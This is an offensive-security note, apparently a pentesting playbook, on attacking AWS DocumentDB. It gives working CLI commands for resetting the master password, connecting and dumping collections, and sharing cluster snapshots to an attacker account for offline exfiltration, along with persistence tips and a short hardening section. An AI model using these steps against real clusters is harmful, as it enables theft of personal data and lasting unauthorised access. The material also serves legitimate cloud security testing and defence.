

# 35 - AWS DocumentDB Exploitation

## 1. Executive Summary

DocumentDB is AWS's managed MongoDB-compatible database — the loot is the document data (PII, app records). Cloud-side abuse mirrors RDS: `docdb:ModifyDBCluster` can **reset the master password** and `ModifyDBInstance`/cluster settings can flip exposure; `docdb` snapshot APIs (`CreateDBClusterSnapshot` + `ModifyDBClusterSnapshotAttribute`) can **share a snapshot to an attacker account** to restore and read offline. With the master password (or reset) and network reach, you connect with the `mongo`/`mongosh` client and dump collections. Network-layer Mongo tradecraft applies once connected.

## 2. Service Overview & Architecture

A DocumentDB **cluster** (port **27017**, MongoDB wire protocol) has a primary + replicas, a **master user**, VPC SG, and TLS. Data is in databases/collections. **Cluster snapshots** can be copied/shared across accounts via snapshot attributes (the cross-account exfil trick). Access = network reachability (SG) + DB credentials.

## 3. Enumeration

```bash
aws docdb describe-db-clusters
aws docdb describe-db-instances
aws docdb describe-db-cluster-snapshots
aws docdb describe-db-cluster-parameter-groups
```

## 4. Privilege Escalation / Abuse Vectors

- **`docdb:ModifyDBCluster --master-user-password`** — reset the master password → log in:
  ```bash
  aws docdb modify-db-cluster --db-cluster-identifier <c> \
    --master-user-password '<New>' --apply-immediately
  mongosh "mongodb://<master>:<New>@<endpoint>:27017/?tls=true" 
  ```
- **Snapshot share exfil** — `CreateDBClusterSnapshot` then `ModifyDBClusterSnapshotAttribute --attribute-name restore --values-to-add <attacker-acct>`; restore in attacker account and read everything offline (bypasses prod network/SG).
- **Modify exposure / SG** — adjust cluster to a subnet/SG you can reach (DocumentDB isn't directly "public," so reachability usually needs an in-VPC pivot).
- **Connect + dump** — with creds + reach, `mongodump` all collections.

## 5. Mermaid Attack Flow



## 6. Persistence
- Keep the reset master password / a created DB user.
- Retain a shared snapshot copy in attacker account.

## 7. Post-Exploitation / Data Access
- Full document store (PII, app data).
- Offline snapshot copy = durable exfil independent of prod.

## 8. Detection & Hardening
1. Restrict `docdb:ModifyDBCluster` and snapshot-attribute sharing; deny cross-account snapshot share by policy.
2. Keep clusters in private subnets, tight SGs, TLS enforced, encrypted snapshots (KMS scoped).
3. Alert on master-password modify, snapshot creation/sharing, new DB instances.

## 9. Chaining / Related Notes
- Same pattern as **[[06 - RDS Exploitation]]** (snapshot share / password reset). Mongo client tradecraft: **[[14 - MongoDB (Ports 27017-27018) Pentesting]]** (Network).
- Reach often needs **[[04 - EC2 Exploitation]]**. Snapshot decrypt: **[[13 - KMS Exploitation]]**.

## 10. Tools
`aws docdb`, `mongosh`, `mongodump`, `pacu`, `ScoutSuite`.
